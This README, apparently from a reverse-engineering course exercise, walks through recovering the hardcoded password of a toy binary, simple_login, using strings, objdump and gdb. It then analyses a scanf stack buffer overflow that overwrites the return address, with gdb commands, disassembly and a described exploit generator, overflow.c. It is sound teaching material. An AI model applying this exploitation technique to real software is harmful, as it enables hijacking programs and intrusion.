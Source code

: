 # simple_login

You can prefix all commands with `./with-docker.sh` to run them in a i386
Debian container. This allows us to easily run it on NixOS and we do not have
manage a multilib environment.

## intialized GDB session

`make gdb-tui` runs `gdb -x gdb/tui.txt ./simple_login` in the container.
[gdb/tui.txt](./gdb/tui.txt) enables gdb's TUI with assembly and register view.
Breakpoints are set at the beginning of simple_login's `verify_password` and
right after its call to `scanf`. The second breakpoint allows us to `continue`
when stepping through with gdb lands us in libc's `scanf`.

## Finding out the password

The password is `AaMilmFS+z11/2J`.

### 1. `strings simple_login`

We can use binutils' `strings` to show all printable strings in simple_login.
Between the many symbols, near the top of the output are simple_login's output
phrases and the string `AaMilmFS+z11/2J`.

### 2. `objdump -s -j .rodata simple_login`

Binutils' `objdump` can also dump the `.rodata` section of simple_login, where
strings are stored. In the hexdump we can see `AaMilmFS+z11/2J` again.

### 3. `gdb -x gdb/password.txt ./simple_login`

[gdb/password.txt](./gdb/password.txt) sets the breakpoint `*(verify_password+84)`.
This is where the input string is compared to the password:

```asm
   0x080483e5 <+65>:    cld
   0x080483e6 <+66>:    mov    esi,DWORD PTR [ebp-0xe0]
   0x080483ec <+72>:    mov    edi,DWORD PTR [ebp-0xe4]
   0x080483f2 <+78>:    mov    ecx,DWORD PTR [ebp-0xe8]
=> 0x080483f8 <+84>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

The code is explained in this [StackOverflow answer](https://stackoverflow.com/a/44630309)
and compares the data pointed to by registers `esi` (which holds the input)
and `edi` (which holds the password). (`cld` clears the direction flag, which
means `repz` will increment `esi` and `edi`.)

`print/s (char *)$edi` yields the hardcoded password.

## Malicious input

### Inspection

`verify_password` is called with *cdecl* calling conventions. Tbis means that
first the functions arguments are pushed, second its return address, and third
the function is called.

The called function receives a preamble as well, where it pushes the `ebp`
register and set's its own `ebp` to `esp` so it can access local variables in
its stack frame relative to `ebp`. (Saving and restoring some registers is
the responsibility of the callee as well.) A matching postamble is created,
that restores the caller's `ebp` before returning to the caller.

After executing the preamble the stack will look like this:

`*(void **)ebp`
: the saved value of `ebp` from the caller, that will be restored in the postamble

`*((void **)ebp + 1)`
: (The word after the address pinted to by `ebp`, (+4 bytes))
: the return address pushed by the call instruction

`(char *)ebp - x`
: addresses of the function's local variables

Knowing this we step through the program with gdb:

  * start gdb and run `simple_login` until it called `verify_password`

    ```
    $ gdb ./simple_login
    (gdb) break verify_password
    (gdb) run < /dev/null
    ```
  * gdb will now stop the execution at our breakpoint
  * ```
    (gdb) set disassembly-flavor intel`
    (gdb) disassemble
    ```

    ```asm
    Dump of assembler code for function verify_password:
       0x080483a4 <+0>:     push   ebp
       0x080483a5 <+1>:     mov    ebp,esp
       0x080483a7 <+3>:     push   edi
       0x080483a8 <+4>:     push   esi
       0x080483a9 <+5>:     sub    esp,0xf0
    => 0x080483af <+11>:    lea    eax,[ebp-0xd0]
       0x080483b5 <+17>:    mov    DWORD PTR [esp+0x4],eax
       0x080483b9 <+21>:    mov    DWORD PTR [esp],0x804855c
       0x080483c0 <+28>:    call   0x80482f8 <scanf@plt>
       0x080483c5 <+33>:    lea    eax,[ebp-0xd0]
       0x080483cb <+39>:    mov    DWORD PTR [ebp-0xe0],eax
       0x080483d1 <+45>:    mov    DWORD PTR [ebp-0xe4],0x804855f
       0x080483db <+55>:    mov    DWORD PTR [ebp-0xe8],0x10
       0x080483e5 <+65>:    cld
       0x080483e6 <+66>:    mov    esi,DWORD PTR [ebp-0xe0]
       0x080483ec <+72>:    mov    edi,DWORD PTR [ebp-0xe4]
       0x080483f2 <+78>:    mov    ecx,DWORD PTR [ebp-0xe8]
       0x080483f8 <+84>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
       0x080483fa <+86>:    seta   dl
       0x080483fd <+89>:    setb   al
       0x08048400 <+92>:    mov    ecx,edx
       0x08048402 <+94>:    sub    cl,al
       0x08048404 <+96>:    mov    eax,ecx
       0x08048406 <+98>:    movsx  eax,al
       0x08048409 <+101>:   test   eax,eax
       0x0804840b <+103>:   jne    0x8048419 <verify_password+117>
       0x0804840d <+105>:   mov    DWORD PTR [ebp-0xdc],0x1
       0x08048417 <+115>:   jmp    0x8048423 <verify_password+127>
       0x08048419 <+117>:   mov    DWORD PTR [ebp-0xdc],0x0
       0x08048423 <+127>:   mov    eax,DWORD PTR [ebp-0xdc]
       0x08048429 <+133>:   add    esp,0xf0
       0x0804842f <+139>:   pop    esi
       0x08048430 <+140>:   pop    edi
       0x08048431 <+141>:   pop    ebp
       0x08048432 <+142>:   ret
    End of assembler dump.
    ```

    The `sub esp,0xf0` tells us 240 bytes were reserved on the stack for local
    variables. (This is a little misleading because the compiler already
    allocates space for the arguments of `scanf` as well.)
  * inspect local variables

    ```
    (gdb) info locals
    password = "\000..."
    ```
  * show the type of the variable *password*

    ```
    (gdb) ptype password
    type = char [200]
    ```

  * show the address of *password*

    ```
    (gdb) print/a &password
    $1 = 0xffffdb68
    ```
  * We now know `verify_password` has a local variable `char password[200]`
    at 0xffffdb68.
  * ```asm
    => 0x080483af <+11>:    lea    eax,[ebp-0xd0]
       0x080483b5 <+17>:    mov    DWORD PTR [esp+0x4],eax
       0x080483b9 <+21>:    mov    DWORD PTR [esp],0x804855c
       0x080483c0 <+28>:    call   0x80482f8 <scanf@plt>
    ```

    From this assembler code we can tell that `scanf("%s", password)` is called.
    (`print/s (char *)0x804855c` will tell us the format string `"%s"` and
    `print/a $ebp - 0xd0` that a pointer to *password* is passed.)
  * pointer to the return address

    ```
    (gdb) print/a (void **)$ebp + 1
    $1 = 0xffffdc38
    ```
  * show us the return address

    ```
    (gdb) print/a *((void **)$ebp + 1)
    $1 = 0x8048455 <main+34>
    ```
  * From this we can tell the return address is 0xffffdc38 - 0xffffdb68 = 212
    bytes after *password*.
  * Now we change return address through *password*, create a new breakpoint,
    and see what happens at `ret`.

    ```
    (gdb) set *(void **)(password + 212) = -1
    (gdb) break *(verify_password+142)
    (gdb) continue
    (gdb) stepi
    0xffffffff in ?? ()
    ```

We successfully manipulated the return address by writing to *password*.

Since `scanf` does not do any bounds checking, we can override the return
address if we make `scanf` read 216 bytes into *password*.

### Implementation

[overflow.c](./overflow.c) takes a hexadecimal address as an argument and
generates an input for `simple_login` that will exploit the buffer overflow
and makes `simple_login` execute code at that address.

### Test

`make test-overflow-sigsegv` runs `simple_login` with an input that makes it
jump to 0xFFFFFFFF. `make gdb-overflow` runs the same in gdb and prints
relevant information while running. You can see that `verify_password` returns
execution to 0xFFFFFF.
